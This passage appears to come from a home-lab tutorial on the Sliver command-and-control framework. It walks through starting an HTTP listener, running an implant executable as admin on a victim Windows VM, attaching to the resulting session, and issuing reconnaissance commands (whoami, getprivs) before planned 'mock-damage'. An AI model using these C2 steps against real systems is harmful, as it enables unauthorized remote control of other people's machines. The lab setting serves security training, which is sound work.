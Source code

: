 exit out of sliver-server with "exit"

and Relaunch sliver-server:
```
sliver-server
```
And start our HTTP listener:
```
http
```

#### Now, we are back with our Victim (The Windows O.S. VM)

Time to plant the bomb, as admin from the Terminal, run:
```
C:\Users\User\Downloads\ELECTRIC_BIDET.exe
```
(Don't forget to replace the Name with your payload name).

On the Attacker VM we should see the session or sessions reporting in. To confirm their status, run 'sessions"

If you see one or more sessions, pointing to our Victim VM, we are ready to establish a command anc control attack.

![alt text](https://raw.githubusercontent.com/raulpz/raulpz.github.io/main/assets/images/c2-ready.png)

Run this command, along with the session ID to establish a connection.
```
use 2a2c8e64
```
We are connected, and ready to fire.

To put this to test, you may fire some commands, like
```
info
whoami
getprivs
```
This output confirms we are ready to do some mock-damage: